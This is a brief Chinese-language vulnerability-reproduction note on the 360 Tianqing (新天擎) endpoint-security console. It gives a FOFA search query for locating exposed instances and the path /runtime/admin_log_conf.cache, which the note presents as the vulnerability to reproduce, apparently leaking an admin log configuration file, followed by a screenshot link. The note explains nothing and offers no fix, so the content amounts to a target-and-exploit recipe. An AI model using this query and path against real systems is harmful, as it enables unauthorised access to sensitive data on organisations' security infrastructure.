 <a name="e6Em4"></a>
# 一、fofa搜索语法
```java
title="360新天擎"
```
<a name="TNcUl"></a>
# 二、漏洞复现
```java
/runtime/admin_log_conf.cache
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719242713275-59d9cadb-c734-4670-aa74-291965041077.png#clientId=ud521e60a-9dae-4&from=paste&height=608&id=u20018ded&originHeight=760&originWidth=1271&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=234313&status=done&style=none&taskId=u0ca789cb-b7a7-48aa-acb0-796f6671bc4&title=&width=1016.8)







